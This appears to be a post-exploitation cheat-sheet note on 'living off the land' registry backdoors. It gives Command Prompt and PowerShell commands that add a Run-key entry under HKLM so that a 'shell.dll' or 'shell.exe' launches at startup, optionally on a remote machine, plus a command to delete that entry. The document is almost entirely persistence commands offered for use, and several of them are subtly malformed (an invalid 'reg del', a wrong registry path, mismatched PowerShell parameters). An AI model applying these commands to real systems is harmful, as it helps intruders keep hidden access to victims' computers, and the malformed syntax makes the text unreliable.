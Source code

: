 # Living off the Land

## 01 - Registry Backdoors

### 1.1 - HKLM

#### 1.1.1 - Add Registry Key Syntax

- Command Prompt

```
C\> reg import file.reg

C:\> reg add [\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v <value> /t reg_sz /d "rundll32.exe C:\path\to\shell.dll,ExecDLL" /f
```

- Powershell

```powershell
PS C:\> set-itemproperty -path "hklm:\software\microsoft\windows\currentversion\run" -name "<value>" -propertytype string -value "C:\path\to\shell.exe" -force
```

#### 1.1.2 - Delete Registry Key Syntax

```
C:\> reg del [\\<IP>\]hklm\\software\\microsoft\\currentversion\\run /v <value> /f
```

---
## References

- [[Windows Post Exploitation Persistence References]]